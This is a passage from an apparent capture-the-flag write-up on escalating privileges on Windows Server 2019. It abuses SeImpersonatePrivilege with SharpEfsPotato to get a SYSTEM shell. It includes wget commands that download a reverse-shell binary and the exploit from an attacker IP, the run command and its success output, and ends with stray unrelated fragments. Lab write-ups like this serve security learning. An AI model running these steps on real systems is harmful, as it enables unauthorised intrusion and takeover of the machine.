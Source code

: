 ```
PS C:\Windows\system32> whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We have `SeImpersonatePrivilege` Enabled. Since this is a Windows Server 2019, most of the known Potatos will not work. But likely, there is new potato that could exploit `SEimpersonatePrivilege` using `EfsRpc`.

> https://github.com/bugch3ck/SharpEfsPotato

We compile it with Visual Studio and upload it to the remote machine:

```
PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/xc_10.10.14.57_443.exe -o xc_10.10.14.57_443.exe

PS C:\Windows\System32\spool\drivers\color> wget 10.10.14.57/SharpEfsPotato.exe -o SharpEfsPotato.exe
```

And then execute my reverse shell:

```
PS C:\Windows\System32\spool\drivers\color> .\SharpEfsPotato.exe -p C:\Windows\System32\spool\drivers\color\xc_10.10.14.57_443.exe
SharpEfsPotato by @bugch3ck
  Local privilege escalation from SeImpersonatePrivilege using EfsRpc.

  Built from SweetPotato by @_EthicalChaos_ and SharpSystemTriggers/SharpEfsTrigger by @cube0x0.

[+] Triggering name pipe access on evil PIPE \\localhost/pipe/d112edc0-75de-4d57-8696-f7b9847761a6/\d112edc0-75de-4d57-8696-f7b9847761a6\d112edc0-75de-4d57-8696-f7b9847761a6
df1941c5-fe89-4e79-bf10-463657acf44d@ncalrpc:
[x]RpcBindingSetAuthInfo failed with status 0x6d3
[+] Server connected to our evil RPC pipe
[+] Duplicated impersonation token ready for process creation
[+] Intercepted and authenticated successfully, launching program
[+] Process created, enjoy!
```


[WARNING]: provided hosts list is empty, only localhost is available. Note that
[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname
